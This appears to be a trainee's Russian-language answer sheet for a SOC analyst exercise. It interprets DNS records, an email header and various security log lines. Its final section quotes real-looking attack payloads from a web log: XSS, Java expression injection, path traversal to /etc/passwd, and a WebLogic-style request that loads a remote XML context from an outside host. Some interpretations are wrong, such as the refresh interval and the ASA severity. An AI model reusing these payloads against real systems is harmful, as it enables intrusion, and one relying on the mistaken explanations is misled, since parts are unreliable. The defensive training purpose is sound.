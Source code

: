 # kaspi-SOC2.0-answers
Ex.1

Строка 1:
	ХОСТ: "kaspi.kz" - это доменное имя;
	КЛАСС: "IN" - означает что это запись интернета;
	ТИП: "A" - означает что эта запись содержит IP-адрес;
СОДЕРЖАНИЕ ЗАПИСИ: "ip = 194.187.245.10" - IP-адрес сервера kaspi.kz;

Строка 2:
ТИП: "NS" -означает что запись связана с именами DNS-серверов;
	target = ns.bc.kz - имя DNS-сервера, связанного с доменом;

Строка 3, 4, 5:
	target = ns2.kaspi.kz - имя DNS-сервера, связанного с доменом;

Строка 6:
	ТИП: "SOA" - запись хранит данные о главном DNS-сервере для домена и его параметры, например
	mname = ns.bc.kz - имя главного DNS-сервера для домена;
	rname = telecomdev.kaspi.kz - eМail владельца зоны;
	serial = 2018122633 - номер версии зоны;
	refresh = 600 - проверяет наличие обновлений в зоне каждые 60 секунд;
	retry = 150 - повторяет попытку обновления при ошибке каждые 150 секунд;
	expire = 28800 - зона устаревшая, если главный DNS-сервер получил обновление после 28800 секунд;
	minimum-ttl = 300 - при не заданном TTL минимальное время жизни записей зоны 300 секунд;

Строка 7, 8:
	ТИП: "MX" - запись хранит данные о почтовом сервере
	pri = 10 - приоритетность этой MX-записи в списке других MX-записей. Чем ниже число, тем выше приоритет данного сервера.
	target = bmss-01d.kaspi.kz - имя почтового сервера

Строка 9, 10, 11, 12, 13:
	ТИП: "TXT" - запись содержит текст.
	txt = google-site-verification=x-9S3SCWGLPV4449a3riJHAdsBWLD44A8YGrmESd0gA - содержание записи

Строка 14:
	ТИП: "PTR" - запись для обратного связывания IP-адреса с доменным именем.
	10.245.187.194.in-addr.arpa - это имя хоста, обозначает обратное доменное имя - IP-адресу 194.187.245.10.
	kaspi.kz - доменное имя, связанное с указанным IP-адресом.




Ex 2:
	Этот email header содержит записи о получении. Запись хранит данные об отправителе, получателе и использованном протоколе.

	Первый блок указывает, что письмо было отправлено с хоста exch3.localhost (IP-адрес 10.1.1.1) с помощью Microsoft SMTP Server, используя TLS 1.2 с шифрованием TLS_RSA_WITH_AES_256_GCM_SHA384.

	Второй блок указывает, что письмо было отправлено с того же хоста exch3.localhost (IP-адрес 10.1.1.1), но было получено на другом хосте, exch2.localhost (IP-адрес 10.1.1.2), используя тот же самый протокол SMTP Server с тем же шифрованием TLS_RSA_WITH_AES_256_GCM_SHA384.

	Третий блок указывает, что письмо было отправлено с хоста nodename.kaspi.kz (IP-адрес 10.1.1.2), получено на хосте exch2.localhost (IP-адрес 10.1.1.2), с использованием протокола SMTP Server и шифрования TLS_RSA_WITH_AES_256_CBC_SHA256.

	Запись Authentication-Results указывает, что отправитель, elndjeni@visa.com, прошел проверку SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail) и DMARC (Domain-based Message Authentication, Reporting and Conformance).
Запись ISDR содержит зашифрованные данные, которые могут использоваться для проверки целостности и подлинности письма.

	Запись IPHdr содержит некоторые дополнительные данные в виде строки, которая была разделена на несколько частей из-за ограничений длины строки. Это могут быть дополнительные заголовки, такие как заголовок передачи или заголовок протокола.

Ex 3:
	Система обнаружила потенциальную угрозу в виде вредоносного ПО - Win.Trojan.Banker.
	Система отследила и зарегистрировала исходящее подключение с IP-адресом и портом, используемым для передачи вредоносного кода.

	Безопасность предприятия должны обнаружить и удалить вредоносного ПО, провести анализ вредоносной активности, а также принимать меры для улучшения защиты сети и предотвращения подобных атак в будущем.


Ex 4:
	Лог-запись NGINX содержит
	Имя пользователя: отсутствует.
	IP адрес источника: 10.1.2.3
	IP адрес назначения: 109.166.59.44
	Порт источника: отсутствует.
	Порт назначения: отсутствует.
	Событие: "GET /shop-ext/suggestions/?i=productDetails&m=true&t=IP&pi=14701657&u=3729495
HTTP/1.1"
	Статус: 200
	Реферер: "https://kaspi.kz/shop/p/gerbor-vusher-reg1w2d2s-13-9-l-p-nimfea-al-ba-belyi-gljanets-14701657/?c=551010000"
	Браузер: "Mozilla/5.0 (Linux; Android 9; Redmi Note 7 Build/PKQ1.180904.001; wv)
	AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/78.0.3904.96 Mobile Safari/537.36"
	Время запроса: 0.009
	Время ответа: 0.008
	Порт назначения с указанием протокола: 10.2.3.4:9001

Строка журнала почтового сервера.
	<22> - приоритет журнала событий
	Dec 04 12:22:00 - дата и время события.
	Mail_Logs - имя журнала.
	Info - уровень журнала.
	New SMTP ICID 11444342 - идентификатор SMTP соединения
	interface MAIL (172.1.2.3) - интерфейс, через который было создано соединение SMTP.
	address 62.141.46.147 - IP-адрес удаленного SMTP-сервера.
	reverse dns host s2.kipersam.art - обратное DNS-имя удаленного SMTP-сервера.
	verified yes - флаг, показывающий, была ли проверка обратного DNS-имени успешной (в данном случае - да).


#3 Proxy Server
	<30> - приоритет журнала событий
	Dec 4 12:21:59 - дата и время события.
	mwg-prx1 - имя сервера.
	mwg - имя приложения, которое создало лог.
	LEEF:1.0|PRXName|Web Gateway|7.8.2.11.0|0|devTime=1575440519000 - это формат лога, который используется для отправки логов в системы управления событиями. В этом случае, это формат LEEF версии 1.0, который содержит информацию о имени прокси-сервера, версии ПО и времени устройства.
	src=10.7.8.9 - это исходный IP-адрес клиента.
	usrName=petrov_123 - имя пользователя, которое было использовано для аутентификации.
	userAgent=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36 - это информация о браузере, который был использован клиентом.
	httpStatus=200 - это код состояния HTTP-запроса, который был получен от сервера.
	dst=149.154.167.99 - это IP-адрес сервера, к которому происходило обращение.
	urlCategories=Instant Messaging - это категория URL-адреса, которая была обнаружена на сайте.
	blockReason= - это причина блокировки, если URL-адрес был заблокирован.
	url=https://venus.web.telegram.org/apiw1 - это URL-адрес, который был запрошен клиентом. В этом случае, это API-запрос к Telegram.

#3 ASA

Этот лог был сгенерирован устройством ASA (Adaptive Security Appliance), который является устройством сетевой безопасности, разработанным компанией Cisco. В этом логе указаны следующие данные:
	<166> - номер уровня срочности (severity level), который указывает на критичность события (166 соответствует уровню "critical").
	Dec 04 2019 12:21:59 - дата и время, когда произошло событие.
	ASA1234 - идентификатор устройства.
	Deny TCP (no connection) - действие, которое было выполнено ASA в результате события. В данном случае, ASA отклонил TCP-пакет, так как связь не была установлена.
	from 90.143.47.21/42968 - источник пакета, указывающий на IP-адрес и номер порта отправителя.
	to 194.187.247.147/443 - назначение пакета, указывающий на IP-адрес и номер порта получателя.
	flags ACK - флаги, указывающие на тип пакета. ACK - это подтверждение получения предыдущего пакета.
	Таким образом, этот лог сообщает о том, что ASA отклонил TCP-пакет, поскольку не было установлено соединение между отправителем и получателем.


#4 Mail Log

Эти логи связаны с почтовым сервером и содержат информацию об ICID (идентификаторе контекста сообщения), а также о соответствующих проверках безопасности и списках.
Первый лог сообщает, что сообщение с ICID 11444342 было принято и соответствовало списку SUSPECTLIST с совпадением SBRS (-3.0:-1.0) и страной отправления Германия.
Второй лог сообщает, что сообщение с ICID 11444341 было отклонено из-за соответствия списку BLACKLIST с совпадением SBRS (-10.0:-3.0) и страной отправления Монголия.


#5 FW
Это лог события устройства защиты (FW), который указывает, что обнаружена вредоносная активность в файле с именем "online_126657052_3.pdf". Событие было зарегистрировано на устройстве с IP-адресом 10.10.10.1 в 12:21:55 4 декабря 2019 года.
Данные о файле включают его размер (46197 байт), тип (PDF), имя и хэш-сумму (CD22437892392E03BF5375B597AA77DE6F0E5D9F26B1832339B79DA19F050BF7).
Событие также содержит информацию о соединении, в котором был обнаружен вредоносный файл, включая адрес и порт источника и назначения, а также протокол и имя службы (SMTP).
Другая информация включает политику контроля доступа, ID пользователя, имя пользователя и сведения о протоколе. Событие также указывает, что файл был помечен как вредоносный с дальнейшим отклонением (disposition=2), а также о том, что его анализ был произведен локально (localMalwareAnalysisStatus=5)


Ex 5:
Нелегитимные запросы в данном логе:
2023-02-15T08:32:00	data.kaspi.lab 443 85.117.101.213 10.2.1.12	80	GET	/market/api/v2/orders	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36	%3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E	kaspi.lab
Запрос содержит параметр запроса "%3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E", который является скриптом JavaScript, с помощью него можно внедрить js-код в НTML 
ip с которого отправили запрос - 85.117.101.213

2023-02-15T08:32:00	chat.kaspi.lab 443 188.246.252.144 10.17.8.228	80	POST/market/p/linea-8035154p-55-zoloto-100959802/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36	lang=ru-RU&code=&query=%D0	kaspi.lab
Не уверен на признак уязвимости, однако запрос хранит http протокол и подозрительные параметры code=&query=% могут содержать данные

2023-02-15T08:32:00	new.kaspi.lab 443 81.91.187.59	10.2.50.20	80	POST	/bottles/dashboars/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+9;+TECNO+CC7+Build/PPR1.180610.011;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/101.0.4951.41+Mobile+Safari/537.366	actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D	kaspi.lab
Не уверен на признак уязвимости, однако запрос хранит “actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D” в котором может хранится вредоносный код

2023-02-15T08:32:00	dev.kaspi.lab 443 78.109.191.117 10.2.50.21	80	POST /page/api/login/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+12;+SM-A315F+Build/SP1A.210812.016;+wv)	view%3D..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd	kaspi.lab
параметре "view" указана строка, которая содержит путь до файла "/etc/passwd",

2023-02-15T08:32:00	forum.kaspi.lab 443	79.133.190.153 10.2.1.12	80	POST	/bottles/dashboardapi2/api/v1/Dashboard/getSampleRequest	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(iPhone;+CPU+iPhone+OS+13,4+like+Mac+OS+X)+AppleWebKit/605.1.15+(KHTML,+like+Gecko)+Mobile/15E148	_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29	kaspi.lab
'_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29’  - возможна уязвимость
